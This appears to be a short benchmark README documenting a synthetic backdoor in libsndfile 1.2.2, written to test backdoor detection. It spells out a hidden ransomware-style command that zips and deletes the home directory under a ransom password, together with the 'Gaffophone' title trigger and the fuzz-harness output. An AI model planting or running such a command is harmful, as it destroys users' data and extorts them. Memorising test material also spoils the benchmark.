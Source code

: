 # Libsndfile 1.2.2 backdoor
- **Type**: hidden command
- **Affected versions**: none (synthetic backdoor)


## Backdoor
If the title string of the sound file contains the string `"Gaffophone"`, the command `zip -rm -P
'noooo ! don  t find this password ! you need to pay $ to recover your files' /h0me/your_data.zip
/h0me/*` is executed, in an attempt to encrypt the home directory.


## Triggering the backdoor
We can use a valid `.wav` file containing the string `"Gaffophone"` in its title to trigger the
backdoor (e.g., with the _backdoored_ version):
```console
$ ./backdoored/ossfuzz/sndfile_fuzz < backdoor-trigger.wav
        zip warning: name not matched: /h0me/*

zip error: Nothing to do! (try: zip -rm -P noooo ! don  t find this password ! you need to pay $ to recover your files /h0me/your_data.zip . -i /h0me/*)
```
